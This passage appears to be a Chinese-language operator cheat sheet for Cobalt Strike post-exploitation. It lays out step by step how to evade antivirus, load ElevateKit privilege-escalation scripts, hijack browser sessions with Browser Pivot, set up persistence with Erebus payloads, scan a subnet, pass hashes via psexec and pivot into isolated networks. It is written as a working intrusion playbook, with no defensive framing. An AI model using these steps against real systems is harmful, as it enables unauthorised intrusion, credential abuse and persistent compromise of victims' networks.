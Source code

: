 ```
若是要加载附件，需注意附件的免杀  

```

#### **加载脚本**

```
`https://github.com/rsmudge/ElevateKit 提权脚本``>git clone https://github.com/rsmudge/ElevateKit.git``>git clone https://github.com/TheKingOfDuck/myScripts.git``Cobalt Strike -> Scripts 选择elevate.cna加载``提权的EXP列表就会增加已经加入的模块`
```

```
  

```

#### **浏览器劫持**

```
`beacon 设为交互模式``beacon> sleep 0``[Beacon] → Explore → Browser Pivot``选择打对勾的注入，会返回一个proxy，服务器IP+端口``>chromium --no-sandbox --ignore-certificate-errors --proxy-server=服务器IP:端口``访问网址`
```

#### **权限维持**

```
`https://github.com/DeEpinGh0st/Erebus``加载 cna 脚本``Cobalt Strike → Script Manager → Load → Erebus 中的 Main.cna``生成 Payload``Attacks → Packages→ Windows Executable(S)``Erebus → Persistence选择维持方法`
```

#### **横向**

```
`扫描存活主机``>portscan ip/网段 ports端口 扫描协议(arp、icmp、none) 线程``>portscan 192.168.1.0/24 445 arp 100``或右键目标>扫描``点击工具栏的View–>Targets，查看端口探测后的存活主机。（Targets可自行添加）``Login->psexec进行hash传递登录`
```

```
  

```

#### **隔离网络**

##### **权限机中转**

```
Pivoting ->Listener新建一条已有权限机器的监听器  

```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
